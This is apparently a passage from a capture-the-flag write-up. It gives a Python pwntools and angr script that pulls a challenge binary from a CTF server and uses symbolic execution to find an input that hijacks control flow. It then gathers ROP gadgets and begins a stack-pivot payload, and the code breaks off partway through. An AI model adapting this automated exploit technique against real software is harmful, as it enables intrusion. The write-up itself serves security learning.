 Putting this into action got me a total ASLR leak, allowing me to return to libc with 100% success (more or less, I got the odd connection error)

```python
from pwn import *
import time, angr, logging

logging.getLogger('angr').setLevel('ERROR')
logging.getLogger('claripy').setLevel('ERROR')

context.terminal = ['kitty','-e']

r = remote("ctf.battelle.org", 30042)

r.recvuntil(b"********************************")
r.recvline()
with open("current_binary", "wb") as f:
    f.write(r.recvuntil(b"********************************\n"))


p = angr.Project("current_binary")
state = p.factory.blank_state()

simgr = p.factory.simgr(state, save_unconstrained=True)
simgr.stashes['mem_corrupt']  = []

def check_mem_corruption(simgr):
    if len(simgr.unconstrained):
        for path in simgr.unconstrained:
            if path.satisfiable(extra_constraints=[path.regs.pc == "ABCD"]):
                path.add_constraints(path.regs.pc == "ABCD")
                if path.satisfiable():
                    simgr.stashes['mem_corrupt'].append(path)
                simgr.stashes['unconstrained'].remove(path)
                simgr.drop(stash='active')
    return simgr

simgr.explore(step_func=check_mem_corruption)
if len(simgr.stashes['mem_corrupt']) == 0:
    log.warn("could not find memory corrupting input")
    exit(1)
corrupting = simgr.stashes['mem_corrupt'][0].posix.dumps(0)
payload = corrupting[:corrupting.index(b"DCBA")-4]

pivoted_stack_1 = 0x0804b068 # start of bss + enough to not clobber important stuff

exe = ELF("./current_binary")


POP_EBX_RET = 0x08048371
POP_EBX_RET = 0x08048371
MOV_AX_4 = 0x080484f7
# above gadgets are constant
POP_EBP_RET = next(exe.search(b"\x5d\xc3"))
INC_ECX_RET = next(exe.search(b"\x41\xc3"))
LEAVE_RET = next(exe.search(b"\xc9\xc3"))
RET = next(exe.search(b"\xc3"))

# the first thing we want to do is pivot the stack
# we're gonna have to commit some sins to get this to work and limited rop chain size isn't gonna do it
pivot_payload = b""
pivot_payload += p32(0x0804b09c-4)

```